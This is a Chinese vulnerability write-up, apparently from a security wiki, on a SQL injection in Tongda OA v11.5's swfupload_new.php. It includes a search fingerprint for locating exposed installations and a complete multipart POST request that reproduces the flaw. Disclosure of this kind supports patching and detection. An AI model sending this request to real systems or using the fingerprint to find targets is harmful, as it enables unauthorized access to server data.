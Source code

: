 # 通达OA v11.5 swfupload_new.php SQL注入漏洞

## 漏洞描述

通达OA v11.5 swfupload_new.php 文件存在SQL注入漏洞，攻击者通过漏洞可获取服务器敏感信息

## 漏洞影响

<a-checkbox checked>通达OA v11.5</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TDXK-通达OA" </a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628302741339-9c544321-2209-42e7-9401-d7959a3105fc.png)

发送请求包触发漏洞

```php
POST /general/file_folder/swfupload_new.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 355
Content-Type: multipart/form-data; boundary=----------GFioQpMK0vv2
Accept-Encoding: gzip

------------GFioQpMK0vv2
Content-Disposition: form-data; name="ATTACHMENT_ID"

1
------------GFioQpMK0vv2
Content-Disposition: form-data; name="ATTACHMENT_NAME"

1
------------GFioQpMK0vv2
Content-Disposition: form-data; name="FILE_SORT"

2
------------GFioQpMK0vv2
Content-Disposition: form-data; name="SORT_ID"

------------GFioQpMK0vv2--
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628302774880-77e8dde6-9700-4b8c-aa80-d5eebd471398.png)



若有收获，就点个赞吧